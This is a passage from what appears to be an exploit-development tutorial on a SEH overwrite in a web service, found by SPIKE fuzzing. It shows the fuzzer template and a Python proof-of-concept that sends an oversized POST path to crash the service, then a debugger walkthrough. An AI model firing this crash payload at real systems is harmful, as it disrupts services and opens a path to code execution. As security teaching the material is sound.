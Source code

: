 So we know we can now control the SEH handler and subsequently EIP and we also have control over EBX. Lets make a PoC to test our theory. If we look at the request that corresponds to request 30 in the command line we see this:

```
Done with read
Fuzzing Variable 0:30
Variablesize= 2050
Reading packet
```

# Creating the POC
## Initial Attempts

So lets make a PoC that sends 2050 A's in the right part of the POST request. Opening up our `post.spk` file, we can see this corresponds to the first `string_variable` line:

```c++
s_string("POST /");
s_string_variable("enlighten/calais.asmx/Enlighten");
s_string(" ");
```

Thus the request we should send should look like `POST /*long string of A's here*`:

```python
#!/bin/python
import socket

overflow = "A" * 2050
buffer = "POST /" + overflow + " HTTP/1.1\r\n"
buffer += "User-Agent: Wget/1.13.4\r\n"
buffer += "Host: 192.168.99.142:8080\r\n"
buffer += "Accept: */*\r\n"
buffer += "Connection: Keep-Alive\r\n"
buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
buffer += "Content-Length: 4"
buffer += "\r\n\r\n"
buffer += "licenseID=string&content=string&paramsXML=string"

handle = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
handle.connect(("192.168.82.129", 8080))
handle.send(buffer)
handle.close()
```

Running this program against the target generates the same crash as before. If we now click on the first address in the SEH chain, right click on it and select "Follow In Stack" and then scroll to the bottom of the stack, we will notice our first error. We appear to have written past the end of the stack:

[![](https://4.bp.blogspot.com/-8DvWXXVyXlQ/VDQ5VpucOnI/AAAAAAAAAW8/rFrnxulqwtE/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_006.png)](https://4.bp.blogspot.com/-8DvWXXVyXlQ/VDQ5VpucOnI/AAAAAAAAAW8/rFrnxulqwtE/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_006.png)
